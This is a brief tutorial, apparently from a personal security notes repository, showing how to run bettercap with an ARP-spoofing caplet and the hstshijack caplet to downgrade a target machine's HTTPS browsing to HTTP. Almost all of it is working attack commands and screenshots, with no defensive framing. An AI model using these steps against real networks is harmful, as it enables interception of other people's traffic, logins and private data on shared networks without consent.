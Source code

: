 # Arp-Spoofing for HTTPS

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```
Then on the target machine if you go a website uses https (go to google or google.ie and search linkedin, click the linkedin web page at the beginning):

![image](https://github.com/user-attachments/assets/df57bb4c-ce8d-48a6-be4f-60b797290fc6)


